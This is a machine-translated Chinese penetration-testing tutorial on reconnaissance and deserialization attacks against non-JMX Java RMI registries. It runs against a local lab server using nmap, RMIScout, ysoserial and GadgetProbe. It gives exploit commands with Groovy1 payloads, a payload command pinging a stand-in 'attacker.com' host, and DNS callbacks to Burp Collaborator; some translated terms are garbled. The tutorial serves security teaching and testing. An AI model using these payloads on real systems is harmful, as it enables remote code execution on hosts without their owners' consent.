# pentesters 的 Java RMI 第二部分——对非 JMX 注册中心的侦察和攻击

> 原文：<https://itnext.io/java-rmi-for-pentesters-part-two-reconnaissance-attack-against-non-jmx-registries-187a6561314d?source=collection_archive---------0----------------------->

这是“pentesters 的 Java RMI”文章的第二部分。第一部分可以在这里找到，你可以从中了解什么是 Java RMI 注册中心(我主要说的是非 JMX 注册中心)以及如何与它们交互。

在当前部分，我们将讨论实际的自动侦察以及针对它们的攻击。本文将使用 RMI 接口/服务器，这在第一部分中已经介绍并详细解释过了。它的源代码也可以在 GitHub 上找到，[这里](https://github.com/0xluk3/simple-rmi)。

# 再鉴定

按照本文的第一部分启动 RMIRegistry 服务器，并对其运行 nmap 扫描(事实上，扫描任何 RMI 注册表都会得到以下结果。为了以防万一，您可以使用第一部分中的示例代码。

```
nmap -v -Pn -p 11099 -sV — script=+rmi-dumpregistry 127.0.0.1
```



让我们看看如何针对上述接口使用 RMIScout 工具。RMIScout 的目的是猜测 RMI 接口上可用的方法。一旦完成，您就可以按照第一部分实现自己的接口和客户机，并尝试执行这些方法。但是，请注意，对您不拥有的资产盲目执行某些操作可能会产生不可预知的副作用，包括永久损坏该资产。在这样做之前，确保它的所有者意识到潜在的风险(虽然像 String getVersion()这样的方法相当安全，但是千万不要调用 shutDown()这样的方法)

您可以按照 GitHub 描述安装 RMIScout:

```
Git clone [https://github.com/BishopFox/rmiscout.git](https://github.com/BishopFox/rmiscout.git)cd rmiscout/./gradlew shadowJar
```

我正在用 GitHub 页面上描述的 Gradle 构建它，但是你也可以在这里下载预构建的版本[。](https://github.com/BishopFox/rmiscout/releases/tag/v1.03)



对于潜在函数的侦察，RMIScout 提供了两种模式:检查函数签名(单词列表模式)和 bruteforce 模式。

检查函数签名的命令是

```
./rmiscout.sh wordlist -i lists/prototypes.txt localhost 11099
```

如果你看一下单词表，你会看到这些原型是什么样子的:



值得一提的是，参数名称是不相关的。他们堪称典范，因为他们显然不可能不出名。

**为了便于练习，我们向下滚动列表，添加默认情况下不在列表中的 echo 功能。如果不手动添加，就检测不到！**

```
String echo(Object randomParamName)
```



现在，保存单词列表并对注册表运行 RMIScout:



“Skipping…”输出只是为了提供信息，这些函数出现在单词表中，但是由于没有参数而被跳过。有趣的是绿色输出。

如您所见，已经确定了一个函数。即使您不知道接口实现，现在也可以用本文第一部分介绍的 echo 函数创建一个。

RMIScout 中的另一个可用模式是 bruteforce。它不需要猜测硬编码的方法签名，而是允许搜索标准更加多样化。可以使用以下命令运行它:

```
./rmiscout.sh bruteforce -i lists/methods.txt -r void,String -p String,Object -l 1,2 localhost 11099
```

如果你看一下 methods.txt，你会发现它只包含函数名。我们将在列表的末尾添加“echo ”,这样我们的非标准方法名就会被检测到。记得在那种状态下保存单词表！



其余的暴力模式参数如下:

-r 返回的数据类型

-p 要查找的参数类型

-l range [from，to]函数应该接受多少个参数作为输入。

RMIScout 将使用这些数据生成排列(函数、参数类型和返回类型的组合),并尝试根据远程注册表猜测它们。现在，再次运行该工具将显示方法“echo”存在于远程接口上。



# 历史攻击

从历史的角度来看，可以使用 [ysoserial 的](https://github.com/frohoff/ysoserial)实用程序——rmregistryexploit 和 JRMPClient 在远程接口上获得几乎 100%确定的 RCE(假设过去几乎每个类路径上都存在易受攻击的库)。这两个内置功能的设计是为了滥用 RMI 注册中心的一些非常复杂的内部特性，所以我在这里不做描述。简而言之，RMIRegistryExploit 利用了一个事实，即 RMI 注册中心利用 Java 序列化进行通信，而 JRMPClient 利用分布式垃圾收集，这也可能以类似的方式被滥用。更多细节可以在[这里](https://www.programmersought.com/article/22724621036/)找到。

Ysoserial 可以以其预编译形式下载。在它的 [GitHub 页面](https://github.com/frohoff/ysoserial)上看看怎么做。

使用以下命令可以用 ysoserial 攻击 RMIRegistries(如果旧的 java 仍然可以)。我假设下载的 ysoserial 的名称是 ysoserial.jar

```
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit host port PayloadName command
```

或者

```
java -cp ysoserial.jar ysoserial.exploit.JRMPClient host port payloadname command
```



其中 *payloadname* 是一个 ysoserial 有效载荷，而 *command* 是该有效载荷要执行的命令。例如， *payloadname 命令*可以是:

*URL DNS http://mycollabid.burpcollaborator.net*

*公选 6《平 attacker.com-C3》*

在这两种情况下，ysoserial 将执行以下操作

在*主机:端口*连接到远程注册表

尝试注入序列化的有效负载

如果 PayloadName 可以被反序列化(所有的小工具都在远程类路径上，并且有旧的 java 版本在使用)，那么代码即将被执行

反向外壳/ DNS 查找检查部分在你这边

如上所述，这是一个历史性的方法，但仍然有应用程序与旧 java 硬捆绑在一起，因此值得一试。java 版本不应比 JDK 1.7u21 新，并且不应安装被视为易受攻击的 JEP290 修补程序。

**等一下！**

你喜欢这篇文章吗？想让**了解最新**网络安全内容的最新**？**

[订阅我们的**免费** **简讯** —点击这里](https://newsletter.afine.academy/join)！

[](https://newsletter.afine.academy/join) [## AFINE 网络通讯

点击这里加入！](https://newsletter.afine.academy/join) 

# JEP 290

终止 RMI 注册表免费利用的是名为 JEP 290 的安全补丁。你可以在[这篇伟大的文章](https://mogwailabs.de/blog/2019/03/attacking-java-rmi-services-after-jep-290/)中读到更多关于那个补丁的详细技术信息和它的含义。

简而言之，利用 RMI 注册表仍然是可能的，但是通过指定一个序列化的对象作为远程方法的参数。一个非常重要的注意事项——不是每个参数都可以用序列化对象替换；只有那些*非原始*数据类型。[在这里](https://en.wikibooks.org/wiki/Java_Programming/Primitive_Types)你可以看到哪些数据类型被认为是原语。

请注意，基本类型有相应的所谓包装类，这可能会令人困惑，如下例所示:

原语 *int* —有一个对应的包装类 *java.lang.Integer*

原语 *long* —有一个对应的包装类 *java.lang.Long*

等等。

我不会深究基本类型和非基本类型的细节，但是对于那些感兴趣的人，你可以在这里看到关于包装类[的更多信息。](https://programming.guide/java/wrapper-types.html)

简而言之，如果您正在处理一个运行在现代 Java 上的 RMI 注册表，并且您想通过反序列化攻击向量在其上执行代码，您需要:

至少找到一种方法

该方法应该利用一个非基元类型的参数

您需要用序列化对象替换该参数

当然，由 ysoserial 生成的小工具链也应该出现在远程类路径上，否则会得到 ClassNotFoundException

例如，如果在远程注册表上发现了一个方法，其签名是

```
String(java.lang.Integer x)
```

您应该创建各自的接口/客户端，使用以下命令生成 ysoserial 有效负载

```
java -jar ysoserial.jar CommonsCollections6 “ping attacker.com -c3”
```

并以序列化的对象作为参数调用该方法…好吧，手动这是不可能的。你需要为此使用一个工具。例如，同样可以使用 RMIScout(还有其他方法，但我发现 RMIScout 的实用程序最用户友好)。而且，它已经内置了 ysoserial，所以在那种情况下真的很方便。

# 使用 RMIScout 和序列化负载攻击 RMI

我将向您展示如何使用 RMIScout 作为开发工具——这个例子非常简单，命令行已经记录在项目的 [GitHub 页面](https://github.com/BishopFox/rmiscout)上。让我们看一下 RMIRegistry 的两个场景。请注意，下面的代码与[第一部分](https://medium.com/@afinepl/java-rmi-for-pentesters-structure-recon-and-communication-non-jmx-registries-a10d5c996a79)中提供的[代码非常相似，只有一点不同——增加了额外的方法。](https://github.com/0xluk3/simple-rmi)

```
**//RMIInterface.java**import java.rmi.*;import java.rmi.registry.*;import java.net.*;interface RMIInterface extends Remote {public String echoObject(Object obj) throws RemoteException;public String echoString(String str) throws RemoteException;public String echoClass(Class cls) throws RemoteException;public String echoInt(Integer inte) throws RemoteException;}**//Server.java**import java.rmi.registry.Registry;import java.rmi.registry.LocateRegistry;import java.rmi.RemoteException;import java.rmi.server.UnicastRemoteObject;import java.rmi.Naming;public class Server extends UnicastRemoteObject implements RMIInterface {public String echoObject(Object obj) throws RemoteException { return “Object: “ + obj.toString(); }public String echoString(String str) throws RemoteException { return “String: “ + str.toString(); }public String echoClass(Class cls) throws RemoteException { return “Class: “ + cls.toString(); }public String echoInt(Integer inte) throws RemoteException { Integer X = inte; return “Integer”; }protected Server() throws RemoteException {super();}public static void main(String[] args) {try {System.out.println(“[+] Trying to bind…”);//Below IP:PORT can be changedNaming.rebind(“rmi://127.0.0.1:11098/RMIInterface”, new Server());System.out.println(“[+] Server started. “);} catch (Exception e) {e.printStackTrace();}}}
```

现在它是用命令编译的

```
 javac *.java
```

此外，我们需要易受攻击的 Groovy 库——你可以从这里的[下载。](https://repo1.maven.org/maven2/org/codehaus/groovy/groovy-all/2.3.9/groovy-all-2.3.9.jar)

启动 *rmiregistry* 之前的目录内容应该如下所示:



我将确保没有其他注册表正在使用 netstat 运行，稍后我将运行新编译的服务器。注意，Groovy 库现在已经被添加到了类路径中。



运行 nmap 表明，注册表是可访问的，并且可以被转储:

```
nmap 127.0.0.1 -p 11098 -sV -v -Pn -T4 — script=+rmi-dumpregistry
```



现在有趣的部分是:让我们尝试攻击注册表。我们已经知道接口是什么，并且已经说过如果没有接口该如何进行——试着找到它或者猜测它。

在这种情况下，我将跳过侦察阶段，专注于方法执行。请注意，我们的接口有以下方法:



我们还知道，远程注册表的类路径中包含易受攻击的 Groovy 库。因此，名为 Groovy1 的 ysoserial 有效载荷可用于利用它。

整个问题是**你不能简单地在你的函数实现中声明另一种类型的参数。如果接口提供了一个以 Integer 作为参数的函数，你将不能用一个对象类型的参数来调用这个函数。**

这一次，RMIScout 再次帮助我们实现了这一目标。让我们在利用模式下对注册表调用 RMIScout:

```
./rmiscout.sh exploit -s ‘String echoInt(java.lang.Integer x)’ -p ysoserial.payloads.Groovy1 -c “touch /tmp/grovy1” -n RMIInterface localhost 11098
```


论据如下:

-s 代表方法签名，取自接口

-p 是 ysoserial 的有效负载，取自其类路径。路径 ysoserial.payloads 上所有可用的类都可以在[这里](https://github.com/frohoff/ysoserial/tree/master/src/main/java/ysoserial/payloads)找到——它们只是 ysoserial 使用的相同的有效载荷

-c 是 ysoserial 有效负载的命令

-n 是注册表名称

最后两个参数是目标注册表的主机和端口。

执行后，不管错误怎么说，有效负载被调用。文件已经在 */tmp/* 中创建，你也可以在服务器的输出中看到数据已经被处理。



# 2020 年 6 月:字符串和原语的问题

我已经说过，您不能通过滥用以原语作为参数的函数来利用 RMI 接口。不幸的是，在 2020 年 6 月发布补丁后，字符串也是如此。我不会再张贴接口的更新源代码—只是为了让您知道，我只是添加了返回一个字符串(返回类型与漏洞无关)并以一个字符串数据类型作为参数(这是这里重要的)的示例函数。让我们从尝试执行*回声字符串*方法开始。

```
./rmiscout.sh exploit -s ‘String echoString(String x)’ -p ysoserial.payloads.Groovy1 -c “touch /tmp/grovyString” -n RMIInterface localhost 11098
```



什么都没发生。这是因为，根据[已经提到的文章](https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/)，在 2020 年 6 月已经添加了另一个补丁，它以保护原语类型的相同方式保护字符串类型免受任意反序列化。链接的文章包含进一步的技术信息以及所提到的补丁的源代码。

如果我们现在尝试从远程接口执行另一个方法，该方法将 Class 作为参数—同样，代码执行工作正常。



再来看另一个原语的例子:*int*vs Java . lang .*Integer*。接口(和服务器)被修改为包含两个函数:一个接受一个 *int* (原语)，另一个接受*Java . lang . integer*(int 的包装类)作为参数。正如您在下面的截图中看到的，只有攻击后者才会导致代码执行。



# 额外步骤:探测远程类路径

与 RMIScout 一起发布的还有另一个值得一试的工具——它被命名为 GadgetProbe。如果你不熟悉术语“小工具”，你一定要仔细看看 Java 反序列化的主题([https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet))

简而言之，小工具是在目标应用程序(或者在本例中是注册表)类路径中可用的某些 java 类。java 小工具的某些组合允许创建恶意的“小工具链”，如果以未经验证的方式反序列化该链，则可能导致目标应用程序受损。危害影响可能因 DNS 解析和代码执行而异。Ysoserial(以及与其相关的工具，如 Burp 的 Java 反序列化扫描器或漏洞模式下的 RMIScout)用于生成利用不安全反序列化的小工具链。

GadgetProbe 依赖于反序列化一个通用小工具——URL DNS。这个 ysoserial 的有效负载总是有效的(它只是强制在反序列化端点上进行 DNS 查找),只要它是针对任意的(任意意味着在反序列化过程中没有类型检查)反序列化抛出的。因此，在这种情况下，您可以将任何采用非原始(或字符串)数据类型作为参数的方法作为目标。

探测远程类路径上的类可能有助于您理解 ysoserial 的工具包中的哪个 gadget 应该对某个接口有效，只要您已经通过 DNS 交互检测到不安全的反序列化。简单地说——DNS 交互是一个 PoC(就像 xss 中的 *alert(1)* ),为了产生影响，您需要找到小工具，然后使用由可用小工具组成的适当有效负载，最终实现 RCE(或其他与目标的严重交互，如文件写入/删除等)。)

我从 GitHub 下载了 GadgetProbe 并构建了它:



截图上显示的 RMIRegistry 与本文开头用 nmap 扫描的是同一个注册表。现在，为了准备运行 Gadgetprobe，为了展示它的能力，我在*gadget probe/word lists/maven popular . list*更改了它的默认单词列表



简单地说，*“java.lang.String”*被添加到类单词列表的末尾，因为它肯定会在目标类路径中——这是因为 Java . lang . string 是一个本机的、广泛使用的类。

在下一步中，我将使用 BurpPro Collaborator 客户机来生成一个 Collaborator 链接。我将把它粘贴到命令行，让 RMIScout 使用 GadgetProbe 探测远程类路径:

```
./rmiscout.sh probe -s ‘String echo(java.lang.Object qwewqe)’ -i ../GadgetProbe/wordlists/maven_popular.list -d “av9nuav4lhol8ytlc9ut2ditlkrgf5.burpcollaborator.net” -n RMIInterface localhost 11099
```

让我解释一下这里发生了什么:

首先，我们采用之前从 RMIScout 的枚举过程中获得的方法。这是被发现的回声方法，

它正在 RMIScout 中运行，带有探针参数，该参数还与 maven_popular 单词表相关联

附加参数通知 RMIScout 关于 dns 端点的信息，如果远程类路径上也存在单词列表中的类，将解析该端点

它还获取关于注册表绑定、端口和主机的信息

运行后，可以看到 *java.lang.String* 已经被解析！



请注意，白色文本不是正在执行的方法的证明。**你应该依靠 DNS 交互**，在这种情况下，可以在 burp 中看到。



正如已经说过的，DNS 交互是“通用小工具”之一，因为它依赖于本地 java 类，这就是为什么在探测机制中使用它如此可靠。此外，向您的类单词列表中添加一些像 java.lang.String 这样的“始终为真”的类是一个好主意，这样，如果您甚至找不到它们，您就可以推断出已经有了对策。

# 摘要

总而言之，非 JMX RMI 接口(那些没有*实现 javax . management . remote . RMI . RMI server*的接口)的测试包括以下步骤:

使用 Nmap 转储注册表信息的侦测

检查 invocationhandler 是否可访问，否则调整网络/DNS 设置

如果可能的话，尝试在线或在源代码中找到远程接口

否则，尝试使用 RMIScout 猜测方法

可选:尝试探测远程类路径上的小工具，或者

寻找一个使用非原始类型作为参数的方法

尝试用 RMIScout 漏洞利用模式执行它，记住:

o 原语和字符串不能被反序列化

o 远程类路径需要包含易受攻击的小工具库

o 其他定制的反序列化过滤器可能已经就位——但是，除非您有白盒访问权限，否则还不能确定 RCE 是否可行

毫无疑问，最近的补丁使得 RMI 注册中心(仍然说非 JMX 注册中心，因为 JMXRMI 几乎没有其他技术)更难被利用。但是，他们仍然值得考察，因为潜在的 RCE 总是一个值得花时间的奖励。

**作者:**卢卡斯·米库拉——渗透测试仪&研发负责人& D @ AFINE。在 LinkedIn(【https://www.linkedin.com/in/lukaszmikula/】)或 Twitter([https://twitter.com/0xluk3](https://twitter.com/0xluk3))上关注我

**参考文献:**

[https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)
[https://www.programmersought.com/article/22724621036/](https://www.programmersought.com/article/22724621036/)
[https://mogwailabs . de/en/blog/2019/03/attaking-Java-RMI-services-after-jep-290/](https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/)
[https://en . wikibooks . org/wiki/Java _ Programming/Primitive _ Types](https://en.wikibooks.org/wiki/Java_Programming/Primitive_Types)
[https://programming.guide/java/wrapper-types.html](https://programming.guide/java/wrapper-types.html)
[https://github.com/BishopFox/rmiscout](https://github.com/BishopFox/rmiscout)